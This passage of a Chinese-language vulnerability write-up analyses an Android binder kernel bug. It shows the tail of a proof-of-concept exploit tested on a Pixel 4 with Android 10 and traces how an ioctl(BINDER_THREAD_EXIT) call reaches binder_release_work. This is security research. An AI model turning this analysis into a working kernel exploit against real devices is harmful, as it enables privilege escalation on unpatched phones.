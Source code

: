 ```
    }
    // Waiting for trigger threads
    for (int i = 0; i < NB_TRIGGER_THREADS; i++)
        pthread_join(trigger_threads[i], NULL);
 
    return 0;
}

```

作者在 Pixel 4 设备上 Android 10 factory image QQ3A.200805.001 released in August 2020 做了尝试。

用户态调用回溯
=======

结合 poc 来分析为何这样写：

1. 从用户态调用到 binder_release_work？
-------------------------------

```
// Userland code from the exploit
int binder_fd = open("/dev/binder", O_RDWR);
ioctl(binder_fd, BINDER_THREAD_EXIT, 0)

```

这时候通过 binder_ioctl 调用 binder_thread_release——>binder_release_work(proc, &thread->todo); 从而走到以下这里

```
static long binder_ioctl(struct file *filp, unsigned int cmd, unsigned long arg)
{
    // [...]
 
    case BINDER_THREAD_EXIT:
        binder_debug(BINDER_DEBUG_THREADS, "%d:%d exit\n",
                    proc->pid, thread->pid);
        binder_thread_release(proc, thread);
        thread = NULL;
        break;
 
    // [...]
static int binder_thread_release(struct binder_proc *proc,
                 struct binder_thread *thread)
{
    // [...]
 
    binder_release_work(proc, &thread->todo);
    binder_thread_dec_tmpref(thread);
    return active_transactions;
}
 
static void binder_release_work(struct binder_proc *proc,
                struct list_head *list)
{
    struct binder_work *w;
 
    while (1) {
        w = binder_dequeue_work_head(proc, list); /* dequeues from thread->todo */
        if (!w)
            return;
 
    // [...]

```
